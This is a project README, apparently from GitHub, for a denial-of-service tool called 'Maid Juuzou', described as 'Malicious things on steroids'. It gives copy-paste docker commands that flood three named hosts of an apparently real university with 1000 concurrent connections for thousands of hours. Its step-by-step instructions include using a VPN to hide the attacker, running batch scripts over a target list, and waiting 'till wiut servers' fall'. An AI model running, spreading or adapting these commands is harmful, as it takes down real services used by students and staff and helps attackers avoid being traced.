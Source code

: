 <p align="center"><img width="300" src="./docs/readme.webp"/></p>

<h2 align="center">Maid Juuzou</h2>

<p align="center">Malicious things on steroids.</p>

# Target

<p align="center"><img src="./docs/diagram.png"/></p>

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://intranet.wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://srs.wiut.uz`
<br>

# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/almerico/bombardier/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till wiut servers' fall

> All endpoints can be found at: https://dnsdumpster.com
